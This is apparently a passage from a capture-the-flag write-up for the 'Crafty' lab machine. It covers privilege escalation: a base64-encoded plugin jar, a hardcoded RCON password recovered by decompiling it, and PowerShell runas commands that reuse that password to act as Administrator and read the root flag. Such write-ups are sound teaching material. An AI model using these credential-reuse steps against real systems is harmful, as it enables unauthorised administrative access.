W1fov2CuTgAAAG0AAAAKAAAAAAAAAAAAAAAAANAAAABwbHVnaW4ueW1sUEsBAhQA
FAAICAgAFTRbVwAAAAACAAAAAAAAAAQAAAAAAAAAAAAAAAAAVgEAAGh0Yi9QSwEC
FAAUAAgICAAVNFtXAAAAAAIAAAAAAAAACwAAAAAAAAAAAAAAAACKAQAAaHRiL2Ny
YWZ0eS9QSwECFAAUAAgICAAVNFtXAAAAAAIAAAAAAAAAGQAAAAAAAAAAAAAAAADF
AQAAaHRiL2NyYWZ0eS9wbGF5ZXJjb3VudGVyL1BLAQIUABQACAgIABU0W1f8fgZs
RwMAAN8FAAAsAAAAAAAAAAAAAAAAAA4CAABodGIvY3JhZnR5L3BsYXllcmNvdW50
ZXIvUGxheWVyY291bnRlci5jbGFzc1BLAQIUABQACAgIAPczW1cAAAAAAgAAAAAA
AAAPAAAAAAAAAAAAAAAAAK8FAABNRVRBLUlORi9tYXZlbi9QSwECFAAUAAgICAD3
M1tXAAAAAAIAAAAAAAAAGgAAAAAAAAAAAAAAAADuBQAATUVUQS1JTkYvbWF2ZW4v
aHRiLmNyYWZ0eS9QSwECFAAUAAgICAD3M1tXAAAAAAIAAAAAAAAAKAAAAAAAAAAA
AAAAAAA4BgAATUVUQS1JTkYvbWF2ZW4vaHRiLmNyYWZ0eS9wbGF5ZXJjb3VudGVy
L1BLAQIUABQACAgIAPczW1dETIK3GAMAABALAAAvAAAAAAAAAAAAAAAAAJAGAABN
RVRBLUlORi9tYXZlbi9odGIuY3JhZnR5L3BsYXllcmNvdW50ZXIvcG9tLnhtbFBL
AQIUABQACAgIABU0W1cpL4p/QgAAAEEAAAA2AAAAAAAAAAAAAAAAAAUKAABNRVRB
LUlORi9tYXZlbi9odGIuY3JhZnR5L3BsYXllcmNvdW50ZXIvcG9tLnByb3BlcnRp
ZXNQSwECFAAUAAgICADkRllSAAAAAAIAAAAAAAAABAAAAAAAAAAAAAAAAACrCgAA
bmV0L1BLAQIUABQACAgIAORGWVIAAAAAAgAAAAAAAAALAAAAAAAAAAAAAAAAAN8K
AABuZXQva3Jvbm9zL1BLAQIUABQACAgIAORGWVIAAAAAAgAAAAAAAAAQAAAAAAAA
AAAAAAAAABoLAABuZXQva3Jvbm9zL3Jrb24vUEsBAhQAFAAICAgA5EZZUgAAAAAC
AAAAAAAAABUAAAAAAAAAAAAAAAAAWgsAAG5ldC9rcm9ub3Mvcmtvbi9jb3JlL1BL
AQIUABQACAgIAORGWVLPTE/T6QUAAHsLAAAfAAAAAAAAAAAAAAAAAJ8LAABuZXQv
a3Jvbm9zL3Jrb24vY29yZS9SY29uLmNsYXNzUEsBAhQAFAAICAgA5EZZUtS34SGx
BgAAHA0AACUAAAAAAAAAAAAAAAAA1REAAG5ldC9rcm9ub3Mvcmtvbi9jb3JlL1Jj
b25QYWNrZXQuY2xhc3NQSwECFAAUAAgICADkRllSAAAAAAIAAAAAAAAAGAAAAAAA
AAAAAAAAAADZGAAAbmV0L2tyb25vcy9ya29uL2NvcmUvZXgvUEsBAhQAFAAICAgA
5EZZUg+UL/D/AAAAmQEAADUAAAAAAAAAAAAAAAAAIRkAAG5ldC9rcm9ub3Mvcmtv
bi9jb3JlL2V4L0F1dGhlbnRpY2F0aW9uRXhjZXB0aW9uLmNsYXNzUEsBAhQAFAAI
CAgA5EZZUjoNPB4IAQAAnAEAADYAAAAAAAAAAAAAAAAAgxoAAG5ldC9rcm9ub3Mv
cmtvbi9jb3JlL2V4L01hbGZvcm1lZFBhY2tldEV4Y2VwdGlvbi5jbGFzc1BLAQIU
ABQACAgIAOFGWVIAAAAAAgAAAAAAAAAkAAAAAAAAAAAAAAAAAO8bAABNRVRBLUlO
Ri9tYXZlbi9uZXQua3Jvbm9zLnJrb24uY29yZS9QSwECFAAUAAgICADhRllSAAAA
AAIAAAAAAAAALgAAAAAAAAAAAAAAAABDHAAATUVUQS1JTkYvbWF2ZW4vbmV0Lmty
b25vcy5ya29uLmNvcmUvcmtvbi1jb3JlL1BLAQIUABQACAgIAOFGWVL6BBiCrwEA
APcFAAA1AAAAAAAAAAAAAAAAAKEcAABNRVRBLUlORi9tYXZlbi9uZXQua3Jvbm9z
LnJrb24uY29yZS9ya29uLWNvcmUvcG9tLnhtbFBLAQIUABQACAgIAOVGWVKXqr33
aAAAAHAAAAA8AAAAAAAAAAAAAAAAALMeAABNRVRBLUlORi9tYXZlbi9uZXQua3Jv
bm9zLnJrb24uY29yZS9ya29uLWNvcmUvcG9tLnByb3BlcnRpZXNQSwUGAAAAABkA
GQBxBwAAhR8AAAAA
-----END CERTIFICATE-----

```

By decompiling the `jar` using `jadx`, the following contents are revealed:



We can observe the password within the line `Rcon rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());`.

The plugin's purpose is to tally the online players and inscribe this information into `C:\inetpub\wwwroot\playercount.txt`.

To execute commands as `Administrator`, several methods are available. Among these, I opt to utilize the following PowerShell script [runas.ps1](./runas.ps1) (source: https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script):


We can execute it as follows:
```console
PS C:\Users\svc_minecraft\Desktop> . ./runas.ps1 -Command 'whoami' -Username 'Administrator' -Password 's67u84zKq8IXw' -Wait
. ./runas.ps1 -Command 'whoami' -Username 'Administrator' -Password 's67u84zKq8IXw' -Wait

C:\>whoami
crafty\administrator
```

Now, we can retrieve the root flag:
```console
PS C:\Users\svc_minecraft\Desktop> . ./runas.ps1 -Command 'type C:\Users\Administrator\Desktop\root.txt' -Username 'Administrator' -Password 's67u84zKq8IXw' -Wait
. ./runas.ps1 -Command 'type C:\Users\Administrator\Desktop\root.txt' -Username 'Administrator' -Password 's67u84zKq8IXw' -Wait

C:\>type C:\Users\Administrator\Desktop\root.txt 
71927adb76bbf012ed80d04165a90c1b

```

And we get the root flag `71927adb76bbf012ed80d04165a90c1b`.